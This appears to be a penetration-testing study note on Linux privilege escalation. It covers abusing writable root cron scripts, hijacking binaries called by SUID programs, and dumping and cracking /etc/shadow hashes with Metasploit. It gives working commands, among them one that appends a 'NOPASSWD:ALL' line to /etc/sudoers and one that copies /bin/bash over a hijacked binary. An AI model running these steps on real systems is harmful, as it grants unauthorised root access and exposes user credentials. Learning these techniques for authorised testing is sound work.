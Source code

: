 Cron **Jobs** are scripts that are run time to time by Cron.

The configuration file is: `/etc/crontab`

If a cron job is run by the **root** user, and configured poorly (if we have an access to write them), then we can escalate our privileges.

- `crontab -l` - checking for cron jobs for the current user
    - ******* If we don’t find, it **doesn**’t mean that there is no cronjob file.
- **`grep** -rnw /usr -e ‘/home/user/<cronjob_file>’ 2>/dev/null` - shows **files (inside of /usr)** that contains the **path** - `/home/user/<cronjob_fle>`
- after finding a related script file like `/usr/local/share/copy.sh`, we see that it contains our cronjob_file.
    - if we have a write permission, we do:
    **`printf** “#!/bin/bash\necho ‘student ALL=(ALL) NOPASSWD:ALL’ >> /etc/sudoers\n” > /usr/local/share/copy.sh` - if there is no **`nano`**
- `sudo -l` - we can access everything without any password

### SUID binary exploitation

**SUID** (Set User ID) are special binaries, that are executed with the owner’s privileges. **PrivEsc** depends on the execution of a binary.

For PrivEsc:

1. SUID bits must be set by the **root** user.
2. We must have privileges to execute them.

- `file <file_suid>` - gives info about the file’s type
- `strings <file_suid>` - printable characters inside of a file, especially for **non-text** files
    - *** we don’t have permission to write <file_suid>, but we can execute it.
    - we see that the `<file_suid>` have `setuid` and another `<another_file>` inside of it.
- `mv <another_file> <random_name>`
- `cp /bin/bash <another_file>`
- `./<file_suid>` - the **<file_suid>** will run **/bin/bash** with root privileges, we’ll get the root privileges.

`find / -perm -4000 2>/dev/null` - for find binaries that have SUID bits

- `-perm` means permission
- `-4000`  - it is an octal value for SUID bits

### Linux Password Hashes

`/etc/passwd` - all users and info about them, accessible by everyone

`/etc/shadow` - the hashes of users, only accessible by the root user

$1 - MD5 (unsecure)

$2 - Blowfish (unsecure)

$5 - SHA-256 (moderate)

$6 - SHA-512 (moderate)

- `search proftpd` - use proftpd 1.3.3
    - `setg rhosts`
- CTRL + Z - background
- **`sessions -u 1`** - meterpreter session for the shell
- `use post/linux/gather/hashdump` - hashdumping linux
    - `set session <number>`
- `use auxiliary/analyze/crack_linux`
    - `set <algorithm> true` - set SHA512 true
